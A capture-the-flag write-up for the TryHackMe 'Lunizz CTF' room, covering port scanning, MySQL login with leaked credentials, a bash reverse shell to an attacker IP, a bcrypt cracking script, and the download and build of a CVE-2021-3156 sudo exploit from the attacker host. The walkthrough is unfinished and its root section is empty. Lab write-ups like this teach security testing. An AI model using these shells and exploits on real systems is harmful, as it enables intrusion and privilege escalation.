 # [Lunizz CTF](https://tryhackme.com/room/lunizzctfnd)

> Lunizz CTF

## Scanning

scan the machine

```
nmap -A -T4 10.10.80.142
```

there are 4 open ports (80,3306,4444,5000)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/8f7fa2d8-9129-4b16-8519-f47db0f21c66)

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ee0f0de9-2ca6-4e20-a4f0-1f1fdbeeb792)

decode the message on port 4444, we have `extremesecurerootpassword` and `p@ssword`

try to connect with netcat

```
nc 10.10.80.142 4444
```

it seem root, but no...

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/755f517f-f044-4711-9f62-0fcf0b30c86c)

## HTTP

just a normal webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/773cff2e-4d82-4278-b255-f09eac30fd56)

## Enumeration

bruteforce the directory

```
gobuster dir -u http://10.10.80.142/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x php,txt
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/11fe8e44-0b87-4937-bce9-8149c7f76b33)

check the /hidden directory, it like a upload page

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/1640cc87-20a7-4e11-99f5-69ca1162a01c)

and /whatever directory, it like a command injection

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f658b882-f052-49d3-9271-d5683c1841cb)

but all of above is not working

instructions.txt maybe more interested `runcheck:CTF_script_cave_changeme`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/327e91d7-60b2-49d8-b4f9-641434041f7d)

## Exploitation

connect to mysql server

```
mysql -u runcheck -p -h 10.10.80.142
CTF_script_cave_changeme
```

if it appear an error, wait a minute until it connect

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/4e2144f9-f03d-4142-aa4a-1976a7c43bab)

```
SHOW DATABASES;
use runornot;
SHOW TABLES;
SELECT * FROM runcheck;
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/54f25b16-a6ca-489d-8369-41f6d408bacd)

hey, what is run level? what is run on root? doesn't this related to what we just found above

```
UPDATE runcheck SET run = 1;
```

comeback /whatever folder, the run level change to 1

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/0d6edfc2-e1f7-4eab-b95f-a55e00f06521)

create a reverse shell

```
nc -vlnp 1234
````

```
/bin/bash -c "bash -i >& /dev/tcp/10.18.37.45/1234 0>&1"
```

cool, gain foothold

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/c6a5a855-1ee3-41b7-b931-3125f51bda7f)

upgrade shell

```
python3 -c "import pty;pty.spawn('/bin/bash')"
export SHELL=/bin/bash;export TERM=xterm-256color
Ctrl+Z
stty raw -echo; fg
```

```
ls -la /
```

i found a folder `proct` is owned by adam maybe interest

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/b5faf632-5435-41bc-b479-fa85373b11ca)

we have a subfolder pass and a python file inside

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/90ebe2f0-7ddb-4d1a-97d1-49e66767cf4c)

so crack the password of bcrypt

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```

but it's not work because the password is salted, you must crack by hand

```
#!/usr/bin/env python3
import bcrypt
import base64

wordlist = []
with open('list.txt','rt') as file:
    f = file.readlines()
    wordlist = [ x.strip() for x in f ]

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
passwd = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

for word in wordlist:
    password = word
    bpass = password.encode('ascii')
    passed= str(base64.b64encode(bpass))
    hashAndSalt = bcrypt.hashpw(passed.encode(), salt)
    print('\r', end='') # Clear previous line
    print(f'[*] Cracking hash: {hashAndSalt}', end='')
    
    if hashAndSalt == passwd:
        print(f'Found: {word}')
        break
```

i said it will take you too long to get actual password...

Spoiler alert: the password is `isolsa_tabefX100pre`. Where does this occur in rockyou?

```
import bcrypt
import base64

salt = b'$2b$12$SVInH5XmuS3C7eQkmqa6UO'
passwd = b'$2b$12$SVInH5XmuS3C7eQkmqa6UOM6sDIuumJPrvuiTr.Lbz3GCcUqdf.z6'

password = 'isolsa_tabefX100pre'
bpass = password.encode('ascii')
passed= str(base64.b64encode(bpass))
hashAndSalt = bcrypt.hashpw(passed.encode(), salt)

if hashAndSalt == passwd:
    print("Match: ", password)
```

Ok. Let's say we use our python script and run through rockyou; how long would that take? 

Honestly I don't know, but it would be a long time. Many hours. i don't know how it got past testing

but, i found another approach at CVE-2021-3156

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f00a1b03-9013-49ca-b99e-86e08dfb0bea)

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
python3 -m http.server
```

on target machine

```
cd /tmp
wget http://10.18.37.45:8000/exploit.c
wget http://10.18.37.45:8000/shellcode.c
wget http://10.18.37.45:8000/Makefile
make
./exploit 0
```

maybe it's not work, a bad experience





| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
